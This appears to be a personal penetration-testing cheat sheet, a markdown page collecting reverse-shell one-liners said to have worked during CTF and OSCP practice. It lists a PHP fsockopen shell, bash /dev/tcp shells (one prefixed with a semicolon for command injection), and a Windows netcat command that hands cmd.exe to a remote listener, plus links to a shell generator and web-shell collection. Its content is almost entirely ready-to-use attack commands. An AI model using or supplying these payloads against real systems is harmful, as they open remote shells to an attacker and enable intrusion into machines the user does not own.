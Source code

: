 ## Reverse shells that actually worked during my travels

## Php

```
php -r '$sock=fsockopen("10.10.14.31",4321);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bash

``` (from Script Kiddie, htb)
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.176/4444 0>&1' #
```


## Bash2

```(From OSCP Study, this takes no " or ')
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```


## Reverse Shell Generator:

https://github.com/mthbernardes/rsg

## Reverse shells:

https://github.com/jbarcia/Web-Shells/tree/master/laudanum


## Netcat on windows:

```
nc.exe -nv 10.10.14.31 4444 -e cmd.exe

```

